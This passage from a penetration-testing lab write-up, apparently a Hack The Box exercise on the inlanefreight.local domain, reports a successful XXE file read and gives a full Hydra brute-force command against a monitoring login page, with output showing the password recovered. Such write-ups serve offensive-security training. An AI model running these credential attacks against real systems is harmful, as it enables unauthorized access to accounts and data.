 This request contains XML data. Let me try XXE Injection here.

![](attachments/aen_38.png)

This one worked, and I could successfully retrieve local files.
Need to add **XML External Entity (XXE) Injection** as a vulnerability found here.

##### monitoring.inlanefreight.local

![](attachments/aen_39.png)

This seems to be a IT only web which is still accessible.
It's controlled with authentication. And no other useful vectors found.

I tried brute-forcing as follows;

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz monitoring.inlanefreight.local http-post-form "/login.php:username=admin&password=^PASS^:Invalid Credentials"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-25 21:01:18
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://monitoring.inlanefreight.local:80/login.php:username=admin&password=^PASS^:Invalid Credentials
[STATUS] 790.00 tries/min, 790 tries in 00:01h, 14343609 to do in 302:37h, 16 active
[STATUS] 833.33 tries/min, 2500 tries in 00:03h, 14341899 to do in 286:51h, 16 active
[80][http-post-form] host: monitoring.inlanefreight.local   login: admin   password: 12qwaszx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-25 21:05:41
```
